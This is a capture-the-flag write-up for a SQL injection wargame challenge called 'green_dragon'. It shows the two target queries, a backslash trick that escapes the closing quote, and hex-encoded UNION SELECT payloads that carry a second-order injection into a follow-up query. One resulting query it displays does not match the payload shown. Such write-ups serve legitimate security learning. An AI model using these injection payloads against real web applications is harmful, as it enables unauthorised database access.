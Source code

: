 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 25
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a2a4e0ba-a94a-47b7-87fd-6b701374d2b8)

We are provided with two SQL queries:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

```sql
SELECT id FROM prob_green_dragon WHERE id='{$result[id]}' AND pw='{$result[pw]}'
```

We cannot use single or double quotes in this challenge. Therefore, we need to find another way to modify the existing query.

Let's provide the following URI:

```
?id=\
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw='{$_GET[pw]}'
```

As we can see, now the `\' AND pw=` part is being treated as a string. This is because the `\` character escapes the following character which was the closing single quote.

Anything we insert into the `?pw` parameter will thus be treated as code.

If we provide the following URI parameter:

```
?id=\&pw=UNION SELECT 1, 2 -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw=' UNION SELECT 1, 2 -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/67f050bb-24ab-453d-9d4c-482e23491d03)

Interestingly, we can see that the values in the `?pw` parameter (`1,2`) have been inserted in the second query.

```sql
SELECT id FROM prob_green_dragon WHERE id='1' AND pw='2'
```

Using the same technique, in order to convert part of the second query into a string.

We can provide the following URI:

```
?id=\&pw=UNION SELECT 0x5C, 0x554e494f4e2053454c45435420307836313634366436393665202d2d202d -- -
```

`0x554e494f4e2053454c45435420307836313634366436393665202d2d202d` is the Hexadecimal representation of `UNION SELECT 0x61646d696e -- -`.

The resultant first query becomes:

```sql
SELECT id,pw FROM prob_green_dragon WHERE id='\' AND pw=' UNION SELECT \, UNION SELECT 0x61646d696e -- - -- -'
```

The resultant second query becomes:

```sql
SELECT id FROM prob_green_dragon WHERE id='1' AND pw='2' UNION SELECT 0x61646d696e -- -
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/b3e82b2e-fb6d-4d6e-a363-e5b7526dcaf3)
